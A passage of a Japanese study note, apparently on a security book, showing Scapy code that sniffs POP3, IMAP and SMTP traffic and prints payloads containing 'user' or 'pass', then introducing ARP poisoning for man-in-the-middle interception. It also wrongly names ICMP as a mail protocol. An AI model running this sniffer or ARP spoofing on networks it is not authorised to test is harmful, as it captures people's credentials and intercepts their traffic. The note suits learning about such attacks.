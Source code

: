# メール関連のパケットをスニッフする

`sniff`関数に与える主な引数は

`filter`：スニッフする際のパケットのフィルター（Berkeley Packet Filterスタイル）
`prn`：目的のパケットを得た際に呼ぶ関数
`count`：スニッフするパケット数（これを指定しないと永遠にスニッフし続ける）
 
`store = 0`は得たパケットをメモリに保存しないようにする指定。

```python
def main():    
    sniff(filter = 'tcp port 110 or tcp port 25 or tcp port 143', \
                      prn = packet_callback, store = 0)
```
メール関連のパケットをスニッフする為に上記のようにフィルターをかける。
 
メール関連のプロトコルとそのプロトコル番号は下表の通り：

- POP3：110番
- IMAP：143番
- SMTP：25番

```python
def packet_callback(packet):    
    if packet[TCP].payload:
        mypacket = str(packet[TCP].payload)
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f"[*] Destination: {packet[IP].dst}")
            print(f"[*] {str(packet[TCP].payload)}")
```
**”データペイロード”**とは、パケットからヘッダ等の付加情報を除いた**”データ本体”**のこと。

POPやICMP等のメール系で使われるコマンドUSERまたはPASSが含まれているか最終チェックしてそれを通過したものは送り先やらデータ内容を表示。

Scapy公式ドキュメント：https://scapy.readthedocs.io/en/latest/usage.html

なぜか分からないけど”IndexError: Layer [TCP] not found”のエラーが出る。調べてみたけどしっくり来る解決法や同じような問題がヒットしない。
自分はMacでやってるけどもしかしたらKaliでは問題ないのかもしれない。

# ScapyでARPポイゾニング

ArpポイゾニングはMITM(Man-In-The-Middle attack)の一種。

ターゲットとゲートウェイのARPテーブルにおけるMACアドレスを書き換える。

本書での構成をイラストで図示するとこんな感じ👇

![arp_poisoning_strcture-1](https://user-images.githubusercontent.com/85237728/182304459-8b56d32b-2ace-485e-b13b-109b1fdcc304.png)

ターゲットおよびゲートウェイのARPテーブルにおいて、MACアドレスがアタッカーのMACアドレスになってしまっている。

ゆえにパケットがアタッカーを経由することになる。

自分のpcで実装するにあたり、パケットの経由を可能にする為パケットフォワーディングを許可しておくこと（ここでは省略する）。

## MACアドレスを求める関数
